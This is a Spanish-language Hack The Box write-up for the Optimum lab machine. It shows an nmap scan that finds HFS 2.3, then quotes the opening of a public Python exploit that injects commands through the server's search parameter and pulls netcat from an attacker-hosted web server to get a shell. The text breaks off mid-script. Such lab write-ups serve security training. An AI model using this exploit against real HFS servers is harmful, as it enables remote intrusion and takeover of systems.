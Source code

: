 El output de nmap es el siguiente:

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #nmap -sC -sV -p80 optimum.htb -oN targeted
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-29 13:36 -05
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for optimum.htb (10.10.10.8)
Host is up (0.085s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

El puerto que se encuentra abierto corresponde al siguientes servicio:

- `Puerto 80 (HTTP):` se utiliza para la navegación web de forma no segura.

### Enumeración HTTP

Como se pudo observar en el output de Nmap, encontramos que tiene un servidor web `HTTP File Server (HFS)` que está diseñado específicamente para publicar y compartir archivos. La versión de este servicio es la `2.3`. 




## Explotación

Buscamos en `Exploit-db` si hay un exploit asociado a esta versión y encontramos el siguiente [exploit](https://www.exploit-db.com/exploits/39161).

```python
#!/usr/bin/python
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
```